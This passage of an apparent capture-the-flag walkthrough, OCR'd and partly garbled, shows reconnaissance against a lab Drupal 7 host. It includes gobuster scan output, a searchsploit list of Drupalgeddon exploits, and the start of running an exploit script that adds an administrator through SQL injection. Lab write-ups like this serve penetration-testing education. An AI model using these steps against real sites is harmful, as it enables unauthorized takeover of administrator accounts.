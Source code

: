 ```$ gobuster dir --url http://192.168.56.112 --wordlist /usr/share/wordlists/dirb/big.txt -s "200" ```
/ 0 (Status: 200)
/ LICENSE (Status: 200)
/ README (Status: 200)
/ node (Status: 200)
/robots.txt (Status: 200)
/ robots (Status: 200)
/ user (Status: 200)
================================================== =============
2020/06/06 06:40:59 Finished
================================================== =============
```
Sorry, but we don't have any useful discovered directories.

## EXPLOIT - CREATING A NEW USER WITH SQL INJECTION

Using the "Wappalyzer" Chrome plugin, I was able to find out which version of Drupal the website is running on. This is version 7.

So let's check if there are any exploits in our local database.
```bash
$ searchsploit drupal 7

-------------------------------------------------- --------------------- ----------------------------- ----
 Exploit Title | Path
-------------------------------------------------- --------------------- ----------------------------- ----
Drupal 7.0 <7.31 - 'Drupalgeddon' SQL Injection (Add Admin User) | php / webapps / 34992.py
Drupal 7.0 <7.31 - 'Drupalgeddon' SQL Injection (Admin Session) | php / webapps / 44355.php
Drupal 7.0 <7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password | php / webapps / 34984.py
Drupal 7.0 <7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password | php / webapps / 34993.php
Drupal 7.0 <7.31 - 'Drupalgeddon' SQL Injection (Remote Code Executio | php / webapps / 35150.php
Drupal 7.12 - Multiple Vulnerabilities | php / webapps / 18564.txt
Drupal 7.x Module Services - Remote Code Execution | php / webapps / 41564.php
Drupal <4.7.6 - Post Comments Remote Command Execution | php / webapps / 3313.pl
Drupal <5.1 - Post Comments Remote Command Execution | php / webapps / 3312.pl
Drupal <7.34 - Denial of Service | php / dos / 35415.txt
Drupal <7.34 - Denial of Service | php / dos / 35415.txt
Drupal <7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploi | php / webapps / 44557.rb
Drupal <7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution | php / webapps / 44542.txt
Drupal <7.58 / <8.3.9 / <8.4.6 / <8.5.1 - 'Drupalgeddon2' Remote C | php / webapps / 44449.rb
Drupal Module Coder <7.x-1.3 / 7.x-2.6 - Remote Code Execution | php / remote / 40144.php
Drupal Module Embedded Media Field / Media 6.x: Video Flotsam / Media: Au | php / webapps / 35072.txt
Drupal Module RESTWS 7.x - PHP Remote Code Execution (Metasploit) | php / remote / 40130.rb
-------------------------------------------------- --------------------- ----------------------------- ----
Shellcodes: No Results
```
We see many of them. The most convenient seems to be adding an account with administrator rights. By executing the exploit script without any flags, we receive the "service" instruction
```bash
$ python /usr/share/exploitdb/exploits/php/webapps/34992.py

  ______ __ _______ _______ _____
 | _ \. ----. -. -. -----. --- .- | | | _ || _ | _ |
 |. | \ | _ | | | _ | _ | | | ___ | _ | ___ | |. | |
 |. | | __ | | _____ | __ | ___._ | __ | / | ___ (__ `- |. |
 |: 1 / | __ | | | |: 1 | |: |
 | :: ... / | | | :: ... | | ::. |
 `------ '` ---' `------- '` ---'
  _______ __ ___ __ __ __
 | _ .----- | | | .----- | __. ----- .---- | | _ | __. ----- .-----.
 | 1 ___ | _ | | |. | | | -__ | __ | _ | | _ | |
```
